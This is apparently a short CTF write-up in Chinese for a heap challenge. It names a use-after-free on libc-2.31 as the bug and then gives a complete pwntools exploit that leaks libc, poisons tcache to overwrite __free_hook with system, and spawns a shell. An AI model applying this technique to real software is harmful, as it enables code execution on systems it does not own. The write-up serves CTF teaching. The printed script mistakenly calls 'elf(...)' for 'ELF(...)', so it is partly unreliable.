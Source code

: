 此题的漏洞在free时没有对指针置0，libc-2.31的uaf。![图片](https://img-blog.csdnimg.cn/img_convert/501648abb30189f7c023ce63ab1c964e.webp?x-oss-process=image/format,png)

exp

```
from pwn import *
io=process('./pwn4')
elf=ELF('./pwn4')
libc=elf('./libc-2.31.so')
context.log_level='debug'

def add(index,name,key,value):
 io.sendlineafter('Your choice: ','1')
 io.sendlineafter('Your index: ',str(index))
 io.sendlineafter('Enter your name: ',name)
 io.sendlineafter('Please input a key: ',key)
 io.sendlineafter('Please input a value: ',str(value))
 
def show(index):
 io.sendlineafter('Your choice: ','2')
 io.sendlineafter('Your index: ',str(index))

def edit(index,name,length,key,value):
 io.sendlineafter('Your choice: ','3')
 io.sendlineafter('Your index: ',str(index))
 io.sendlineafter('Enter your name: ',name)
 io.sendlineafter('New key length: ',str(length))
 io.sendlineafter('Key: ',key)
 io.sendlineafter('Value: ',str(value))
 
def dele(index):
 io.sendlineafter('Your choice: ','4')
 io.sendlineafter('Your index: ',str(index))
 
def exp():
 add(0,'f1ag','a'*0x417,0)
 add(1,'f1ag','a'*0x3c7,1)
 dele(0)
 show(0)
 malloc_hook = u64(io.recvuntil('\x7f')[-6:].ljust(8,'\x00')) - 96 -16
 libc_base = malloc_hook - libc.symbols['__malloc_hook']
 print('libc_base',hex(libc_base))
 free_hook = libc.symbols['__free_hook'] + libc_base
 system = libc.symbols['system'] + libc_base
 
 add(2,'f1ag','a'*0x57,2)
 add(3,'f1ag','a'*0x57,3)
 dele(3)
 dele(2)
 #gdb.attach(io)
 edit(1,'f1ag',8,'/bin/sh\x00',1)
 edit(2,'f1ag',6,p32((free_hook-0x51)&0xffffffff)+p16(((free_hook)>>32)&0xffff),2)
 
 add(4,'f1ag','a'*0x51+p32((system)&0xffffffff)+p16(((system)>>32)&0xffff),'4')
 
 #add(6,'f1ag',p64(system),5)
 
 dele(1)
 io.interactive()
exp()
```

